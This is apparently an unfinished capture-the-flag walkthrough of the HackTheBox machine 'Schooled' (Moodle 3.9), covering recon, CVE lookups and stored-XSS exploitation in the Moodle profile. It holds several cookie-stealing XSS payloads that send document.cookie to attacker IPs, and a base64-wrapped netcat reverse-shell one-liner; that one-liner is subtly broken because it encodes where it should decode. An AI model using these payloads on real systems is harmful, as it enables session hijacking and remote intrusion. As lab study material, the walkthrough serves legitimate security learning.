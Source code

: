 # Schooled Helped-Through

Name: Schooled
Date:  28/4/2024
Difficulty:  Medium
Goals:  
- Test whether Guided track is good for my overall learning
- Finish in a sitting
Learnt:
Beyond Root:

- [[Schooled-Notes.md]]
- [[Schooled-CMD-by-CMDs.md]]


## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

**Task 1: How many open TCP ports are listening on Schooled?**
```python
# 22,80,33060
3
```

![](terrapin.png)

- CVE-2021-21702 if SOAP and xml can be passed to client
	- https://www.rapid7.com/db/vulnerabilities/php-cve-2021-21702/
	- https://www.tenable.com/plugins/was/112701

![](schooled-www-root.png)

![](hostname.png)

![](teachersasusersnames.png)

Proof that we cannot even contact these teachers at schooled...the parents' evenings must be brutal or the telephone on constantly engaged.
![](asdcontact.png)
Queue telephone on hold music.
![](validasdasd.png)

The testimonals boarder on the realm of pure madness:
![](poorjacques.png)
Slaneeshy followers been drinking that Warp-based corrupted radiator water
![](slaneeshhasatestimonalonthiswebsite.png)

No `root : schooled` on port 33060 for mysql

**Task 2 What is the full domain that hosts an instance of commercially available education software?**
```python
# moodle is not in the first 150k of jHaddix!
moodle.schooled.htb
```

![](moodledomain.png)

![](moodlesearchsploits.png)

![](moodleversionattempt.png)

Weird README from 2007..
![](Martinfrom2007.png)
Site is a bit slow now so just another reminder that even with rate limiting to 100 with feroxbuster something gobuster is just better

![](behatconfig-nuclei.png)

It is very fortunate that I have pick a box at random to finish that includes more XSS or its more statistically likely that I have generally avoided them so eventually I would run into more of them.

XSS on moodle is - https://nvd.nist.gov/vuln/detail/cve-2021-32478
![](xssqueezethemoob.png)
Triangulating the version 
![](triangulateinthemoodleversion.png)

**Task 3 What version of Moodle is running on `moodle.schooled.htb`?**
```
3.9
```

So how many Xovid19-student-skidded this...?
![](xssin2020moodle.png)

**Task 4 What is the 2020 CVE ID for a stored cross-site scripting (XSS) vulnerability in the Moodle profile?**
```
CVE-2020-25627
```

Instructions from https://github.com/HoangKien1020/CVE-2020-25627
```
Step 1: Log in with an authenticated user (Can register or through creating a new user without assigning roles )

Step 2: Quick access to Edit profile

domain/moodle/user/edit.php?id=<your user_id>&returnto=profile

In MoodleNet profile, add the script as:

<script>alert("HK")</script>

And save:

Step 3: Anytime, the other user goes to view your profile, the stored XSS will trigger.

Steal cookie via script:

<script>var i=new Image;i.src="http://192.168.0.238/xss.php?"+document.cookie;</script>

Change your domain and upload xss.php to your host:

https://github.com/HoangKien1020/pentest/tree/master/XSS
```

Trying to think of school-based memes so tiny rick will do
```
tinyrick : Tinyrick123!
```

![](accountcreation.png)

There is a student.schooled.htb domain
![](what.png)

Why do have to enter your email twice, but your password once. Absolute madness.
`tinyrick@student.schooled.htb`

In MoodleNet profile, add the script as:
```html
<img src=x onerror="this.src='http://10.10.14.29/'+document.cookie; this.removeAttribute('onerror');">

<script><img src=x onerror="this.src='http://10.10.14.29:8888/'+document.cookie; this.removeAttribute('onerror');"></script>

<!-- https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies -->
<script>fetch('http://10.10.14.29', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>

<script>fetch('http://10.10.14.29');</script>

<script>fetch('http://10.10.14.29')</script>

<script>new Image().src="http://$attacker-ip:port/cookiejar.jpg?output="+document.cookie;</script>
```

![](tinyxsssssssssssss.png)

![](worksbutnowiknow.png)

I authorize myself the right to refer you to the improvised song about cookies - remember to pay you BBC TV lincence for this please: [Reggie on Mock the Week](https://www.youtube.com/watch?v=sGjgPRVMca8)
![](cookiefromthecookiejar.png)
Unfortunately this is mine. Lmao. Unforntunately I now really what to eat cookies..
![](enrollinginmathsforthecookies.png)
And it is definately not my cookie
![](s6mvogqmd40hp3bvoakkqdqt3i.png)

![](weCrossSiteScriptingToManual.png)

I did try to change tiny rick's grade, but it kept refreshing. Never cheating and feeling crap about when I have used a cheat in a single player games even universe is saying no. 

![](thisdidnotsayitwasthisbox1.png)
Which I just skimmed till:
![](thisdidnotsayitwasthisbox.png)

https://github.com/lanzt/CVE-2020-14321 - but I do not know what the zip as base64 actually is... references https://github.com/HoangKien1020/CVE-2020-14321 similarly:

![](cyberchefnolikeythebytey.png)

Turn pentest monkey into hex
![](pentestmonkeytohex.png)

But that is excessive and I am too lazy to mod the script to not use the cmd.php
`echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuMjkgODg4OCA+L3RtcC9mCg== | base64 | bash`


**Task 6: What is the 2020 CVE ID for a privilege escalation vulnerability that allows a user with the teacher role to get the manager role in Moodle 3.9?**
```

```



## Exploit

## Foothold

## Privilege Escalation

## Post-Root-Reflection  
## Beyond Root

**Task **
```

```
